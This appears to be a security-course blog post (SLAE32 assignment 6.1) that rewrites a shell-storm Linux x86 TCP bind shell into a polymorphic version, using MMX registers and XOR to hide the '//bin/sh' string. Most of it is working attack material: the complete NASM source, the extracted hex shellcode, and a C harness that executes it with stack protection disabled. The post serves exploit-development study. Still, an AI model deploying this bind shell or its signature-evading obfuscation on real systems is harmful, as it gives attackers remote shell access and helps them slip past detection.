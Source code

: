 ```yaml
---
title: SLAE32 Assignment 6.1 - Polymorphic MMX Bind Shell
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - SLAE
  - Linux
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)

## Overview
For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org.   
_What is Polymorphic Shellcode?_   
Polymorphic shellcode means that it uses different assembly instructions to deliver the same payload.    
For example, all of the below instructions will result in the same action.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```

The first shellcode I modified was `tcpbindshell (108 bytes)`, created by Russell Willis.  
This shellcode can be found at `http://shell-storm.org/shellcode/files/shellcode-847.php`.  

Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value.   
+ The original shellcode length is 108 bytes. 
+ The final length of this polymorphic shellcode is 144 bytes.    

## Polymorphic Shellcode
```nasm
global _start
_start:
 xor	ecx,ecx   ; Makes the ECX Register 0
 mul	ecx       ; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX.
 mov ebx, eax     ; sets the EBX register to 0
 push byte 0x66
 pop edi          ; save this for the other functions
 mov eax, edi	  ; eax is now 0x66 which is the socketcall SYScal
 inc ebx          ; EBX = 1; needed to create the socket()
 push edx
push   0x6
 push ebx         ; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80       ; System Call
 xchg esi,eax     ; Save the output of the syscal to the ESI register

 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx          ; EBX = 0x2
push   edx
push word 0x697a  ; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80       ; System Call

 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
 inc ebx          ; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80       ; System Call

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80       ; System Call
jne    dup2Loop

push   edx
 mov edx, 0xffffffff     ; will be used to XOR the MM0 Register to result in "//bin/sh"
 mov eax, 0x978cd091     ; "n/sh" XOR'd with 0xffffffff
 movd mm0, eax
 psllq mm0, 32           ; shift the mm0 register left by 4 bytes
 mov ebx, 0x969dd0d0     ; "//bi" XOR'd with 0xffffffff
 movd mm1, ebx
 paddb mm0, mm1          ; now mm0 hold the 8 byte XOR'd "//bin/sh"
 movd mm1, edx           ; mm1 is now 0xffffffff
 psllq mm1, 32           ; mm1 is now 0xffffffff00000000
 movd mm2, edx           ; mm2 us biw 0xffffffff
 paddb mm1, mm2          ; mm1 is now 0xffffffffffffffff
 pxor mm0, mm1           ; XOR's mm0 with mm1 and saves the results in mm0
 sub esp, 8              ; Decrement the stack 8 bytes
 movq qword [esp], mm0   ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80       ; System Call

```  

+ To push the filename string `//bin/sh` onto the stack, I used the MMX registers.   
+ The code I added/modified is indented with one space.

### Compiling the Shellcode
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
```

### Getting the Hex of the Shellcode
```console
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
### Injecting the Shellcode in a Host Program
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

I then compiled the C program.  

#### Compiling the Host Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```





